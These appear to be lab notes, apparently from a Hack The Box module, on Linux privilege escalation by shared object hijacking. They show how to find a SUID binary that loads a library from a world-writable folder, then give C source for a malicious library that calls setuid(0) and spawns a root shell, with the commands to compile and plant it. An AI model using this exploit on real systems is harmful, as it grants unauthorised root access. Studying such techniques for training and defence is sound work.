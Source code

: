 # Shared Object Hijacking
In this scenario we have to look after suid bit set binaries.
For example:
```bash
ls -la payroll

-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```
Binary  **payroll** has suit bit set.

We can use ldd to print the shared object required by a binary or shared object. Ldd displays the location of the object and the hexadecimal address where it is loaded into memory for each of a program's dependencies.
```bash
htb_student@NIX02:~$ ldd payroll

linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```
We see a non-standard library named `libshared.so` listed as a dependency for the binary. As stated earlier, it is possible to load shared libraries from custom locations
We can use following command to see path of that **payroll** library:
`readelf -d payroll  | grep PATH`
The configuration allows the loading of libraries from the `/development` folder, which is writable by all users. This misconfiguration can be exploited by placing a malicious library in `/development`

Maliciuos file:
```bash
#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
}
```
Before compiling binary we need to know function name called by library:
```bash
htb_student@NIX02:~$ ldd payroll

linux-vdso.so.1 (0x00007ffd22bbc000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
/lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)
```
In that case it is `libshared.so => /development/libshared.so` so we copy binary to path
`cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so`
Then we will compile target malicious file to path which is `/development/libshared.so`
```bash
gcc src.c -fPIC -shared -o /development/libshared.so
```
Then we will execute `payroll`

